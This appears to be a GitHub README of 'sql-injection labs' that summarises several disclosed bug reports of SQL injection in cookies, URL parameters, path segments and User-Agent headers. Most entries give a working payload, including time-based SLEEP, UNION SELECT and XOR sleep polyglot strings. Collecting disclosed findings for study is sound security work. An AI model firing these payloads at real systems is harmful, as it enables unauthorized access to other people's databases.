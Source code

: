 
##  sql-injection labs 

![sql](https://github.com/user-attachments/assets/2a6f7be0-9e42-4dcc-a1f7-c83e7adf9aec)

## report #761304
It seams one of the parameters in the cookies is vulnerable to SQL injection. Below requests has the lang parameter in cookies. If you inject one quote mark like '. You get SQL error with the syntax. By injecting a second you have the error removed.

## report #1042746
 SQLI Injection Time Based on The parameter $_GET['acctid'] is vulnerable. <br>
 GET /changeReplaceOpt.php?&opt=1&acctid=419523%20AND%20SLEEP(15) HTTP/1.1

## report #1044716
SQL Injection in request is used to create sales lead with the data the sales lead id is produced <br>
PUT /consumer/onboarding/saleslead/6b6a8a5a-4a74-46db-b2fe-32a46f927ecc" AND (length(database())) = "11 --+- HTTP/1.1


## report #1046084
SQL Injection Union Based on /commenthistory/$YourSiteId <br>
you can inject by this payload <br>
    /commenthistory/$YourSiteId%20union%20select%201,2,@@VERSION%23

## report #297478
 SQL injection vulnerability in the website that affects the endpoint can be exploited via the User-Agent HTTP header. <br>
 Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87'XOR(if(now()=sysdate(),sleep(5*5),0))OR'


## report #2051931
The server does not perform sanitization on user input, allowing an attacker to inject arbitrary SQL commands into a query. <br>
/api/ten-drives/custom-winners/ten_drive_kz_second_weeks/number_trips/1/999%20or%201=2--

## report #300176
this website is vulnerable to SQL injection in two cookies with different techniques.
1 with time based and the other is basic sql injection

## report #419017
the site is vulnerable to SQL injection in the maxlength attribute of the SSN input field which we can add sql injection payload in it

## report #838855
this site have Blind SQL Injection by Abusing LocalParams (res_id) in /php/geto2banner <br>
 we are able to Exploit it to extract data from your DB

## report #771215
Blind Sql injection Vulnerability in User-Agent <br>
put this payload in user agent parameter if(now()=sysdate(),sleep(10),0)/*'XOR(if(now()=sysdate(),sleep(10),0))OR'"XOR(if(now()=sysdate(),sleep(10),0))OR"*/ 
